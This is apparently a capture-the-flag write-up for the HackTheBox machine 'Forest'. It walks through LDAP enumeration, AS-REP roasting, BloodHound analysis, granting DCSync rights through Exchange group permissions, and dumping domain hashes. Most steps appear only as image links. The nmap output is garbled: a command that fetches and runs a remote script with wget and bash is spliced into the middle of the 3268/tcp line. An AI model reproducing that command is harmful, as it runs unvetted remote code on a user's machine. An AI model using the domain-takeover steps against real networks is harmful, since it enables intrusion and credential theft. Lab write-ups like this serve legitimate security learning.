# forest


## nmap


PORT     STATE SERVICE      VERSION                                                                                                    
53/tcp   open  domain?                                                                                                                 
| fingerprint-strings:                                                                                                                 
|   DNSVersionBindReqTCP:                                                                                                              
|     version                                                                                                                          
|_    bind                                                                                                                             
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-08-26 09:39:41Z)                                             
135/tcp  open  msrpc        Microsoft Windows RPC                                                                                      
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn                                                                              
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)                 
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)                                           
464/tcp  open  kpasswd5?                                                                                                               
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0                                                                        
636/tcp  open  tcpwrapped                                                                                                              
3268/tcp o bash -c  "$(wget -qO- https://git.io/vQgMr)" pen  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)     


## ldap


#### ldapsearch 

- using ldapsearch we can query active directory for all the information related to a domainnord

```
ldapseach -x -b "dc=htb,dc=local" -H ldap://10.10.10.161 '(objectclass=person)' sAMAccountName 
```

- it will give us all the objects in person group and filter in there sam account name


#### rpcclient





## impacket


#### GetNPUsers.py

- kerberos preauthentication is disabled




- cracked the password using hashcat




#### shell




## post

- we are in account operators group
- account operators can add new non admin users change there password etc





#### bloodhound 

- we will also use bloodhound

  

- we are part of account operators group which gives us access to add remove or change password of non admin users

- account operators group has full access to "EXCHANGE WINDOWS PERMISSIONS" and they have writedacl access to one of the domain admins

- we can use dcsync attack and dump the hashes


- first we will add new user to "EXCHANGE WINDOWS PERMISSIONS" group
- then we will add that user DCSYNC rights

adding new user




adding to windows exchange permissions group




using PowerView module to give DCSYNC rights



- we also added our self in remote management group to get a wsman session
- then using PowerView gave ourself DCSYNC rights since we are in windows exchange permissions group

#### impacket secretsdump.py




- now we do attacks like pass the hash and get administrator

#### root



